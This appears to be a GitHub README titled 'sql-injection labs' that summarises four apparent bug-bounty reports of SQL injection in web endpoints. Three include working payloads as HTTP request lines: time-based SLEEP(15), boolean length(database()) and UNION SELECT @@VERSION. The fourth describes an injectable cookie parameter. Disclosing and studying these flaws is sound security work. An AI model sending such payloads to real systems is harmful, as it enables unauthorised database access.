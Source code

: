 
##  sql-injection labs 

![sql](https://github.com/user-attachments/assets/2a6f7be0-9e42-4dcc-a1f7-c83e7adf9aec)

## report #761304
It seams one of the parameters in the cookies is vulnerable to SQL injection. Below requests has the lang parameter in cookies. If you inject one quote mark like '. You get SQL error with the syntax. By injecting a second you have the error removed.

## report #1042746
 SQLI Injection Time Based on The parameter $_GET['acctid'] is vulnerable. <br>
 GET /changeReplaceOpt.php?&opt=1&acctid=419523%20AND%20SLEEP(15) HTTP/1.1

## report #1044716
SQL Injection in request is used to create sales lead with the data the sales lead id is produced <br>
PUT /consumer/onboarding/saleslead/6b6a8a5a-4a74-46db-b2fe-32a46f927ecc" AND (length(database())) = "11 --+- HTTP/1.1


## report #1046084
SQL Injection Union Based on /commenthistory/$YourSiteId <br>
you can inject by this payload <br>
    /commenthistory/$YourSiteId%20union%20select%201,2,@@VERSION%23

